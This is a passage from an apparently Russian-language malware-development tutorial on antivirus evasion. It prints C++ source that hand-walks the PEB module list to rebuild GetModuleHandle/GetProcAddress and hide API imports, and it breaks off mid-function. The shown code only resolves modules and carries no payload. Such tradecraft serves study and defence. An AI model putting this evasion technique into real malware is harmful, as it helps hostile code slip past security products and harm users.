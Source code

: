 ### обход антивируса "вредоносным ПО"

Хорошо, а что насчет примера "вредоносного ПО"? Для этого я просто обновил код из моего [предыдущего поста](https://cocomelonc.github.io/malware/2023/04/08/malware-av-evasion-15.html). Добавим мою реализацию WinAPI `GetProcAddress`. Полный исходный код:

```cpp
/*
 * hack.cpp - GetProcAddress implementation. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/2023/04/16/malware-av-evasion-16.html
*/
#include <stdlib.h>
#include <stdio.h>
#include <windows.h>
#include <winternl.h>
#include <shlwapi.h>
#include <string.h>

#pragma comment(lib, "Shlwapi.lib")

int cmpUnicodeStr(WCHAR substr[], WCHAR mystr[]) {
  _wcslwr_s(substr, MAX_PATH);
  _wcslwr_s(mystr, MAX_PATH);

  int result = 0;
  if (StrStrW(mystr, substr) != NULL) {
    result = 1;
  }

  return result;
}

typedef UINT(CALLBACK* fnMessageBoxA)(
  HWND   hWnd,
  LPCSTR lpText,
  LPCSTR lpCaption,
  UINT   uType
);

// custom implementation
HMODULE myGetModuleHandle(LPCWSTR lModuleName) {

  // obtaining the offset of PPEB from the beginning of TEB
  PEB* pPeb = (PEB*)__readgsqword(0x60);

  // for x86
  // PEB* pPeb = (PEB*)__readgsqword(0x30);

  // obtaining the address of the head node in a linked list 
  // which represents all the models that are loaded into the process.
  PEB_LDR_DATA* Ldr = pPeb->Ldr;
  LIST_ENTRY* ModuleList = &Ldr->InMemoryOrderModuleList; 

  // iterating to the next node. this will be our starting point.
  LIST_ENTRY* pStartListEntry = ModuleList->Flink;

  // iterating through the linked list.
  WCHAR mystr[MAX_PATH] = { 0 };
  WCHAR substr[MAX_PATH] = { 0 };
  for (LIST_ENTRY* pListEntry = pStartListEntry; pListEntry != ModuleList; 
  pListEntry = pListEntry->Flink) {

    // getting the address of current LDR_DATA_TABLE_ENTRY (which represents the DLL).
```